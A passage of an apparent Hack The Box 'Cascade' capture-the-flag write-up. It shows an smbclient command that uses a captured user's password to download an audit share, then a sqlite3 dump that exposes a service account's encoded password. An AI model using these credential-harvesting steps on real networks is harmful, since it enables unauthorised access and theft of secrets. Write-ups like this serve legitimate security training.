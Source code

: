 Downloading the whole folder on my machine:
```shell
smbclient '//cascade.htb/Audit$' -N -c 'prompt OFF;recurse ON;cd '//Casc-DC1/Audit$';lcd '/root/HTB/cascade/smb_shares_casc-dc1/';mget *' -U s.smith%sT333ve2
```

```shell
tree                                                                                    
.
├── CascAudit.exe
├── CascCrypto.dll
├── DB
│   └── Audit.db
├── RunAudit.bat
├── System.Data.SQLite.dll
├── System.Data.SQLite.EF6.dll
├── x64
│   └── SQLite.Interop.dll
└── x86
    └── SQLite.Interop.dll

4 directories, 8 files
```

#### Viewing files contained inside the share

the one that at first glance stands out to me obviously, is the `.db` file, lets view it:
```shell
sqlite3 DB/Audit.db .dump
```

```shell
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');
CREATE TABLE IF NOT EXISTS "Misc" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Ext1"  TEXT,
        "Ext2"  TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Username"      TEXT,
        "Name"  TEXT,
        "DistinguishedName"     TEXT
);
INSERT INTO DeletedUserAudit VALUES(6,'test',replace('Test\nDEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d','\n',char(10)),'CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(7,'deleted',replace('deleted guy\nDEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef','\n',char(10)),'CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin',replace('TempAdmin\nDEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a','\n',char(10)),'CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('Ldap',2);
INSERT INTO sqlite_sequence VALUES('DeletedUserAudit',10);
COMMIT;
```
i can see a value in this line though, that seems like base64: `BQO5l5Kj9MdErXx6Q6AGOw==`